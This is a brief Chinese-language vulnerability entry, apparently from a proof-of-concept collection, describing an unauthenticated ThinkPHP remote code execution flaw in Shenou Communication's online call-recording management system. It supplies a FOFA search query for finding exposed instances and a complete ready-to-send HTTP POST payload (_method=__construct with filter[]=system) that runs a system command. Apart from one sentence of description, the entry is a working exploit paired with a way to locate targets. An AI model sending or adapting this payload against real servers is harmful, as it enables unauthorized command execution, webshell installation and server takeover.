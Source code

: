 ## 申瓯通信在线录音管理系统Thinkphp远程代码执行漏洞

申瓯通信在线录音管理系统存在Thinkphp远程代码执行漏洞，未经身份验证的远程攻击者可以利用此漏洞执行任意指令或写入webshell，导致服务器权限被控，造成严重威胁。

## FOFA

```
title="在线录音管理系统"
```

## poc

```
POST /callcenter/public/index.php/index.php?s=index/index/index HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
 
s=id&_method=__construct&method=POST&filter[]=system
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407071932283.png)